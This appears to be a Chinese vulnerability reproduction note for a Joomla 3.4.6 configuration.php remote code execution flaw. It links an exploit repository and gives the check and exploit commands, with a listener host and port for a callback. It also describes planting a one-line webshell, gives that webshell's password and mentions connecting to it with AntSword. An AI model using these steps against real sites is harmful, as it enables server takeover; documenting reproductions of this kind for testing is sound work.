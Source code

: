 ```yaml
---
title: "Joomla 3.4.6 - 'configuration.php' Remote Code Execution"
id: zhfly2998
---
```


# Joomla 3.4.6 configuration.php 远程代码执行

## 一、漏洞简介

Joomla 3.4.6 - 'configuration.php' Remote Code Execution

## 二、影响范围

Joomla 3.0.0 至 3.4.6

## 三、复现过程

https://github.com/ianxtianxt/Joomla-3.4.6---configuration.php-Remote-Code-Execution

### 脚本验证

验证：

```
python3 test.py -t http://127.0.0.1:8080/ 
```

![image](../img/e87feef9082c4fb8ad5a0db6d3696dad.png)

显示“Vulnerable”证明存在漏洞

利用：

```
python3 test.py -t http://127.0.0.1:8080/ --exploit --lhost 192.168.31.126 --lport 2121 
```

![image](../img/088d991b97a4e5060a5d5032ff4e2ff6.png)

执行成功

并在“configuration.php”写入**随机密码**的一句话木马

![image](../img/797a820246def864e0f14cfa5113520a.png)
上图的密码为：kyevgbxjmwivdvegohfzwuukuzswxqquthlrsollpxzgiifumi

蚁剑链接测试

![image](../img/4ffcfeb2b4e40eea33f890726faf57ad.png)